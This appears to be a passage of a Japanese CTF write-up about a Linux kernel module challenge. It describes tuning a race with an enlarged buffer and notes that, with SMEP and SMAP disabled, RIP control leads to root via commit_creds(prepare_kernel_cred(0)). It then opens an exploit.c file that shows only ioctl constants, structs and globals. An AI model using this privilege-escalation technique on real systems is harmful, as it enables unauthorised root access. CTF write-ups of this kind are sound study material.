 
かなり調整がシビアで、writerスレッドとメインスレッドでスリープを挟んで微調整をしながら上手くいかないなぁと嘆いていたけど、**クソデカバッファのサイズをクソデカからクソデカデカデカデカにしたら上手くいった**。力こそ正義。


# LPE

SMEPもSMAPも無効だから、RIPを取ればもう終わり。RIPが取れた時のスタックを眺めて、使えそうなシンボルをスタックから見繕って`commit(kpc(0))`した。


# exploit

```exploit.c
// for exploit.h, refer to https://github.com/smallkirby/lysithea

#include "exploit.h"
#include <sched.h>

/*********** commands ******************/

#define DEV_PATH ""   // the path the device is placed
#define u64 ulong
typedef union {
    // for OPTION_DEBUG
    struct {
        u64 off;
        u64 *data;
    };
    // for OPTION_CALL
    struct {
        unsigned size;
        u64 rounds;
        u64 key;
        u64 security;
    };
} option_arg_t;

#define OPTION_CALL     0x1337
#define OPTION_PUT      0x1338
#define OPTION_DEBUG    0x1339

/*********** constants ******************/

#define PORT 49494
#define BIGSIZE 0x80000
int victim_sock_fd = -1, attacker_sock_fd = -1;
int victim_socket, attacker_socket;
char bigbuf[BIGSIZE] = {0};
char bigrcvbuf[BIGSIZE] = {0};
const option_arg_t call_option_security = {
    .size = 0x4,
    .rounds = 1,
    .key = 0xdeadbeef,
    .security = 1,
};
const option_arg_t call_option_empty = {
    .size = 0x4,
    .rounds = 1,
    .key = 0xdeadbeef,
    .security = 0,
};
int GO = 0;

/****** (END constants) *****************/
```